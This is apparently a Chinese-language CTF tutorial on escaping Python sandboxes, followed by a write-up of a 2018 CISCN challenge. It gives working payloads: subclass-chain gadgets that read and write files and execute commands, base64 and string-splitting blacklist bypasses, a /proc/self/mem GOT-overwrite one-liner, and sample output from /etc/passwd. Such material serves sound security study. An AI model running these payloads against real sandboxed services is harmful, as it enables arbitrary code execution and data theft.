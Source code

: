 # Python 沙盒
所謂的 Python 沙盒，即以一定的方法模擬 Python 終端，實現用戶對 Python 的使用。

## Python 沙箱逃逸的一些方法
我們通常所說的 Python 沙箱逃逸就是繞過模擬的 Python 終端，最終實現命令執行。
### 導入模塊
在 Python 的內建函數中，有一些函數可以幫助我們實現任意命令執行：
```
os.system() os.popen()
commands.getstatusoutput() commands.getoutput()
commands.getstatus()
subprocess.call(command, shell=True) subprocess.Popen(command, shell=True)
pty.spawn()
```
在 Python 中導入模塊的方法通常有三種（xxx 爲模塊名稱）：

1. `import xxx`
2. `from xxx import *`
3. `__import__('xxx')`

我們可以通過上述的導入方法，導入相關模塊並使用上述的函數實現命令執行。
除此之外，我們也可以**通過路徑引入模塊**：
如在 linux 系統中 Python 的 os 模塊的路徑一般都是在 `/usr/lib/python2.7/os.py`，當知道路徑的時候，我們就可以通過如下的操作導入模塊，然後進一步使用相關函數。
```py
>>> import sys
>>> sys.modules['os']='/usr/lib/python2.7/os.py'
>>> import os
>>>
```
**其他的危險函數舉例**
如 **execfile** 文件執行
```py
>>> execfile('/usr/lib/python2.7/os.py')
>>> system('cat /etc/passwd')
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
...
>>> getcwd()
'/usr/lib/python2.7'
```
**timeit**
```py
import timeit
timeit.timeit("__import__('os').system('dir')",number=1)
```

** exec 和 eval 比較經典了**
```py
eval('__import__("os").system("dir")')

```
**platform**

```py
import platform
print platform.popen('dir').read()
```

但是，正常的 Python 沙箱會以黑名單的形式禁止使用一些模塊如 os 或以白名單的形式只允許用戶使用沙箱提供的模塊，用以阻止用戶的危險操作。而如何進一步逃逸沙箱就是我們的重點研究內容。

### Python 的內建函數
當我們不能導入模塊，或者想要導入的模塊被禁，那麼我們只能尋求 Python 本身內置函數（即通常不用人爲導入，Python 本身默認已經導入的函數）。我們可以通過可以通過 `dir __builtin__` 來獲取內置函數列表
```python
>>> dir(__builtins__)
['ArithmeticError', 'AssertionError', 'AttributeError', 'BaseException', 'BufferError', 'BytesWarning', 'DeprecationWarning', 'EOFError', 'Ellipsis', 'EnvironmentError', 'Exception', 'False', 'FloatingPointError', 'FutureWarning', 'GeneratorExit', 'IOError', 'ImportError', 'ImportWarning', 'IndentationError', 'IndexError', 'KeyError', 'KeyboardInterrupt', 'LookupError', 'MemoryError', 'NameError', 'None', 'NotImplemented', 'NotImplementedError', 'OSError', 'OverflowError', 'PendingDeprecationWarning', 'ReferenceError', 'RuntimeError', 'RuntimeWarning', 'StandardError', 'StopIteration', 'SyntaxError', 'SyntaxWarning', 'SystemError', 'SystemExit', 'TabError', 'True', 'TypeError', 'UnboundLocalError', 'UnicodeDecodeError', 'UnicodeEncodeError', 'UnicodeError', 'UnicodeTranslateError', 'UnicodeWarning', 'UserWarning', 'ValueError', 'Warning', 'ZeroDivisionError', '_', '__debug__', '__doc__', '__import__', '__name__', '__package__', 'abs', 'all', 'any', 'apply', 'basestring', 'bin', 'bool', 'buffer', 'bytearray', 'bytes', 'callable', 'chr', 'classmethod', 'cmp', 'coerce', 'compile', 'complex', 'copyright', 'credits', 'delattr', 'dict', 'dir', 'divmod', 'enumerate', 'eval', 'execfile', 'exit', 'file', 'filter', 'float', 'format', 'frozenset', 'getattr', 'globals', 'hasattr', 'hash', 'help', 'hex', 'id', 'input', 'int', 'intern', 'isinstance', 'issubclass', 'iter', 'len', 'license', 'list', 'locals', 'long', 'map', 'max', 'memoryview', 'min', 'next', 'object', 'oct', 'open', 'ord', 'pow', 'print', 'property', 'quit', 'range', 'raw_input', 'reduce', 'reload', 'repr', 'reversed', 'round', 'set', 'setattr', 'slice', 'sorted', 'staticmethod', 'str', 'sum', 'super', 'tuple', 'type', 'unichr', 'unicode', 'vars', 'xrange', 'zip']
```
在 Python 中，不引入直接使用的內置函數被成爲 **builtin** 函數，隨着 **__builtin__** 這個模塊自動引入到環境中。那麼我們如何引入的模塊呢？我們可以通過 **__dict__** 引入我們想要引入的模塊。**__dict__** 的作用是列出一個模組/類/對象 下面 所有的屬性和函數。這在沙盒逃逸中是很有用的,可以找到隱藏在其中的一些東西
**__dict__**能做什麼呢？
我們知道，一個模塊對象有一個由字典對象實現的命名空間，屬性的引用會被轉換爲這個字典中的查找，例如，m.x 等同於 m.dict["x"]。

繞過實例：
首先通過 base64 繞過字符明文檢測
```python
>>> import base64
>>> base64.b64encode('__import__')
'X19pbXBvcnRfXw=='
>>> base64.b64encode('os')
'b3M='
```
然後通過 **__dict__** 引用
```py
>>> __builtins__.__dict__['X19pbXBvcnRfXw=='.decode('base64')]('b3M='.decode('base64'))
```

*如果一些 內斂函數在 __builtins__ 刪除 ，我們可以通過 reload(__builtins__) 重新載入獲取一個完整的 __builtins__*
### 創建對象以及引用
Python 的 object 類中集成了很多的基礎函數，我們想要調用的時候也是可以通過創建對象進而引用。

我們有常見的兩個方法：
```bash
().__class__.__bases__[0]
''.__class__.__mro__[2]
```
![](http://oayoilchh.bkt.clouddn.com/18-5-3/14928461.jpg)
如，我們可通過
`print ().__class__.__bases__[0].__subclasses__()[40]("/etc/services").read()`達到文件讀取的效果，

**常見payload**
```py
#讀文件
().__class__.__bases__[0].__subclasses__()[40](r'C:\1.php').read()

#寫文件
().__class__.__bases__[0].__subclasses__()[40]('/var/www/html/input', 'w').write('123')

#執行任意命令
().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls  /var/www/html").read()' )
```

### 間接引用
在有些題目中，如這次的2018年國賽的 Python 沙盒題目上，import 其實整個是被閹割了。但是在 Python 中，原生的 **__import__** 是存在被引用的，只要我們找到相關對象引用就可以進一步獲取我們想要的內容，具體下面的demo會講述到

### write修改got表
實際上是一個 **/proc/self/mem** 的內存操作方法
**/proc/self/mem** 是內存鏡像，能夠通過它來讀寫到進程的所有內存，包括可執行代碼，如果我們能獲取到Python一些函數的偏移，如 **system** ，我們便可以通過覆寫 got 表達到 getshell的目的。
```py
(lambda r,w:r.seek(0x08de2b8) or w.seek(0x08de8c8) or w.write(r.read(8)) or ().__class__.__bases__[0].__subclasses__()[40]('c'+'at /home/ctf/5c72a1d444cf3121a5d25f2db4147ebb'))(().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem','r'),().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem', 'w', 0))
```
第一個地址是 system 的偏移，第二個是fopen的偏移，我們可以通過 **objdump** 獲取相關信息
![](http://oayoilchh.bkt.clouddn.com/18-5-3/25123674.jpg)

## 例子
2018 ciscn 全國大學生信息安全競賽中的 Python 沙箱逃逸。
我們可以通過`print ().__class__.__bases__[0].__subclasses__()[40]("/home/ctf/sandbox.py").read()` 獲取題目源碼，然後可以進一步分析，以下提供三種逃逸方法。
### 創建對象並利用 Python 操作字符串的特性
```py
x = [x for x in [].__class__.__base__.__subclasses__() if x.__name__ == 'ca'+'tch_warnings'][0].__init__
x.__getattribute__("func_global"+"s")['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('l'+'s')
x.__getattribute__("func_global"+"s")['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('l'+'s /home/ctf')
x.__getattribute__("func_global"+"s")['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('ca'+'t /home/ctf/5c72a1d444cf3121a5d25f2db4147ebb')
```
### 劫持 got 表 getshell
```py
(lambda r,w:r.seek(0x08de2b8) or w.seek(0x08de8c8) or w.write(r.read(8)) or ().__class__.__bases__[0].__subclasses__()[40]('l'+'s /home/ctf/'))(().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem','r'),().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem', 'w', 0))


(lambda r,w:r.seek(0x08de2b8) or w.seek(0x08de8c8) or w.write(r.read(8)) or ().__class__.__bases__[0].__subclasses__()[40]('c'+'at /home/ctf/5c72a1d444cf3121a5d25f2db4147ebb'))(().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem','r'),().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem', 'w', 0))

```
### 尋找 __import__ 的間接引用
在不斷的 dir 過程中，發現 __closure__  這個 object 保存了參數，可以引用原生的 __import__
```py

print __import__.__getattribute__('__clo'+'sure__')[0].cell_contents('o'+'s').__getattribute__('sy'+'stem')('l'+'s home') 
```
## 參考
https://xz.aliyun.com/t/52#toc-10 
https://blog.csdn.net/qq_35078631/article/details/78504415 
https://www.anquanke.com/post/id/85571 
http://bestwing.me/2018/05/03/awesome-python-sandbox-in-ciscn/#0x01
